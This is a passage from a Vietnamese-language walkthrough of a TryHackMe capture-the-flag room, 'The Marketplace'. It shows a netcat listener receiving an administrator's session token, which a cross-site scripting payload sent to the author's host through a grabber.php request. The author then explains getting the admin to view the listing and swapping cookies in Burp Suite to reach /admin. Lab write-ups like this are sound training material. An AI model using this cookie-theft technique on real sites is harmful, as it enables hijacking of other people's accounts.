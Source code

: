 ![payload](/assets/img/2022-02-01-THM-The-Marketplace/6.webp)

Trước khi ấn "Summit Query" thì tạo listener với port 9001

```python
┌──(neo㉿kali)-[~]
└─$ nc -lnvp 9001                      
listening on [any] 9001 ...
connect to [10.18.3.74] from (UNKNOWN) [10.18.3.74] 57770
GET /grabber.php?c=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjQsInVzZXJuYW1lIjoiYWRtaW4iLCJhZG1pbiI6ZmFsc2UsImlhdCI6MTY2MTY3MTUyNX0.8txB8EpTpBDTcHhL-_LzZe4n7zC3exATeCBm_m49tyw HTTP/1.1
Host: 10.18.3.74:9001
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://10.10.31.207/
Upgrade-Insecure-Requests: 1
```

Sau đó report listing này với quản trị viên để họ trả lời và tôi sẽ có được cookie của họ

Tiếp theo tôi vào path */admin* để thay đổi cookie với BurpSuite
